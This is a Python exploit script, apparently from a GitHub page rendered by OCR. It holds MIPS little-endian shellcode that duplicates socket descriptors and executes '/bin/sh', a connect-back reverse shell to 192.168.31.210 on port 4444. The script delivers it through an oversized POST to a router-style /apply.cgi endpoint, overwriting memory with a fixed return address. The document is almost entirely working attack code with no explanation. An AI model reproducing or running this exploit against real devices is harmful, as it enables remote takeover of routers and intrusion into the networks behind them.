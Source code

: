 ```
    mipselshell += "\xEF\xFF\x0C\x24"                                     # li      $t4, 0xFFFFFFEF
    mipselshell += "\x27\x30\x80\x01"                                     # nor     $a2, $t4, $zero
    mipselshell += "\x4A\x10\x02\x24"                                     # li      $v0, 0x104A
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFD\xFF\x11\x24"                                     # li      $s1, 0xFFFFFFFD
    mipselshell += "\x27\x88\x20\x02"                                     # nor     $s1, $zero
    mipselshell += "\xFF\xFF\xA4\x8F"                                     # lw      $a0, var_1($sp)
    mipselshell += "\x25\x28\x20\x02"                                     # move    $a1, $s1
    mipselshell += "\xDF\x0F\x02\x24"                                     # li      $v0, 0xFDF
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFF\xFF\x10\x24"                                     # li      $s0, 0xFFFFFFFF
    mipselshell += "\xFF\xFF\x31\x22"                                     # addi    $s1, -1
    mipselshell += "\xFA\xFF\x30\x16"                                     # bne     $s1, $s0, dup2_loop
    mipselshell += "\xFF\xFF\x06\x28"                                     # slti    $a2, $zero, -1
    mipselshell += "\x2F\x2F\x0F\x3C"                                     
    mipselshell += "\x69\x62\xEF\x35"                                     # li      $t7, 0x2F2F6269
    mipselshell += "\xEC\xFF\xAF\xAF"                                     # sw      $t7, var_14($sp)
    mipselshell += "\x2F\x6E\x0E\x3C"                                     
    mipselshell += "\x68\x73\xCE\x35"                                     # li      $t6, 0x6E2F7368
    mipselshell += "\xF0\xFF\xAE\xAF"                                     # sw      $t6, var_10($sp)
    mipselshell += "\xF4\xFF\xA0\xAF"                                     # sw      $zero, var_C($sp)
    mipselshell += "\xEC\xFF\xA4\x27"                                     # addiu   $a0, $sp, var_14
    mipselshell += "\xF8\xFF\xA4\xAF"                                     # sw      $a0, var_8($sp)
    mipselshell += "\xFC\xFF\xA0\xAF"                                     # sw      $zero, -4($sp)
    mipselshell += "\xF8\xFF\xA5\x27"                                     # addiu   $a1, $sp, var_8
    mipselshell += "\xAB\x0F\x02\x24"                                     # li      $v0, 0xFAB
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall
    return mipselshell

try:
    target=sys.argv[1]
except:
    print "usage:%s <target>" % sys.argv[0]
    sys.exit(1)
url="http://%s/apply.cgi" % target

sip='192.168.31.210'
sport=4444
DateSegSize=0x4000
host=socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
payload=makepayload(host,sport)
addr=struct.pack("<L",0x10001ad8)
buf="\x00"*(10000-len(payload))+payload+addr*(DateSegSize/4)
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read() 

```